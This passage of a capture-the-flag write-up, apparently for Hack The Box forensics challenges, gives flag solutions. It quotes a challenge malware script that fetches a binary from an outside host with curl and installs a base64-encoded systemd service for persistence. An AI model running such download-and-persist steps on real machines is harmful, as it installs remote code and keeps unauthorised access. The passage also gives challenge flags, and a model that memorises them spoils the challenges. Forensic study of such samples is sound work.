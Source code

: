 ```
$ python3 -c "print('H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}')"
HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}
```
----
## Extraterrestrial Persistence - very easy
- Extract the attached `zip` file for the challenge and just display the file content:
```
$ cat persistence.sh            
n=`whoami`
h=`hostname`
path='/usr/local/bin/service'
if [[ "$n" != "pandora" && "$h" != "linux_HQ" ]]; then exit; fi

curl https://files.pypi-install.com/packeges/service -o $path

chmod +x $path

echo -e "W1VuaXRdCkRlc2NyaXB0aW9uPUhUQnt0aDNzM180bDEzblNfNHIzX3MwMDAwMF9iNHMxY30KQWZ0ZXI9bmV0d29yay50YXJnZXQgbmV0d29yay1vbmxpbmUudGFyZ2V0CgpbU2VydmljZV0KVHlwZT1vbmVzaG90ClJlbWFpbkFmdGVyRXhpdD15ZXMKCkV4ZWNTdGFydD0vdXNyL2xvY2FsL2Jpbi9zZXJ2aWNlCkV4ZWNTdG9wPS91c3IvbG9jYWwvYmluL3NlcnZpY2UKCltJbnN0YWxsXQpXYW50ZWRCeT1tdWx0aS11c2VyLnRhcmdldA=="|base64 --decode > /usr/lib/systemd/system/service.service

systemctl enable service.service 
```
 - And decode the following base64 format and then you will get the flag:
```bash
$ echo -e "W1VuaXRdCkRlc2NyaXB0aW9uPUhUQnt0aDNzM180bDEzblNfNHIzX3MwMDAwMF9iNHMxY30KQWZ0ZXI9bmV0d29yay50YXJnZXQgbmV0d29yay1vbmxpbmUudGFyZ2V0CgpbU2VydmljZV0KVHlwZT1vbmVzaG90ClJlbWFpbkFmdGVyRXhpdD15ZXMKCkV4ZWNTdGFydD0vdXNyL2xvY2FsL2Jpbi9zZXJ2aWNlCkV4ZWNTdG9wPS91c3IvbG9jYWwvYmluL3NlcnZpY2UKCltJbnN0YWxsXQpXYW50ZWRCeT1tdWx0aS11c2VyLnRhcmdldA==" | base64 --decode
[Unit]
Description=HTB{th3s3_4l13nS_4r3_s00000_b4s1c}
After=network.target network-online.target

[Service]
Type=oneshot
RemainAfterExit=yes

ExecStart=/usr/local/bin/service
ExecStop=/usr/local/bin/service

[Install]
WantedBy=multi-user.target
```
----
## Roten - easy
- Extract the attached `zip` file for the challenge and open the `pcap` file with any sniffing tool like Wireshark.
```
wireshark challenge.pcap
```
